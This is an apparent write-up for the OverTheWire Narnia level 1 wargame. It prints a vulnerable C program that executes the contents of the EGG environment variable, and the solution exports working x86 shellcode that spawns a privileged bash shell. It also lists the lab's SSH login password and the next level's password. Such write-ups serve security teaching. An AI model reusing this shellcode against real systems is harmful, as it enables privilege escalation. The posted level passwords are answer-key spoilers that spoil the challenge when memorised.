


# Level 1 → Level 2

## Solution
```
ssh narnia1@narnia.labs.overthewire.org -p 2226
```
```
eaa6AjYMBB
```
```
cd /narnia ; ls -al
```
```
cat narnia1.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I already know this form of `int (*ret)();`, it's a **pointer** to function. Because the `getenv` function returns an address (to the contents of `EGG`, actually to some string), we'll want to make `EGG` a type of memory pointer that prints the password.

So I looked for [**shellcode**](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) to run bash and found [this](https://shell-storm.org/shellcode/files/shellcode-606.html).



I then looked for a way to put hexadecimal bytes into an environment variable and found the answer [here](https://www.linuxquestions.org/questions/linux-general-1/how-to-export-special-characters-into-environment-variables-457813/). I made sure that there is no `\x00` in the shellcode, and that's all:

```
export EGG=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
./narnia1
```




## Password for the next level:
```
Zzb6MIyceT
```
